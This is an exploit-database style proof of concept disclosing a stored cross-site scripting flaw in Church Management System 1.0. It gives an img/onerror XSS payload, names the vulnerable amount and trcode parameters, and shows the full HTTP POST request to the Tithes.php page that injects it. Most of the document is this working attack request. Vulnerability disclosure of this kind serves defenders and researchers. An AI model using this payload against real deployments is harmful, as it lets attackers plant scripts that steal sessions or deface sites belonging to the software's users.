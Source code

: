     # Exploit Title: Church Management System 1.0 - 'Multiple' Stored Cross-Site Scripting (XSS)
    # Date: 07/03/2021
    # Exploit Author: Murat DEMIRCI (@butterflyhunt3r)
    # Vendor Homepage: https://www.sourcecodester.com
    # Software Link: https://www.sourcecodester.com/php/11206/church-management-system.html
    # Version: 1.0
    # Tested on: Windows 10

    # Proof of Concept :

    #Payload: <img src=x onerror=alert(1)>
    #Injectable parameters : amount=  and trcode=

    ###################### REQUEST ##########################################

    POST /cman/members/Tithes.php HTTP/1.1
    Host: localhost
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 85
    Origin: http://localhost
    Connection: close
    Referer: http://localhost/cman/members/Tithes.php
    Cookie: PHPSESSID=cne2l4cs96krjqpbpus7nv2sjc
    Upgrade-Insecure-Requests: 1

    amount=<img+src%3dx+onerror%3dalert(1)>&trcode=<img+src%3dx+onerror%3dalert(1)>&save=
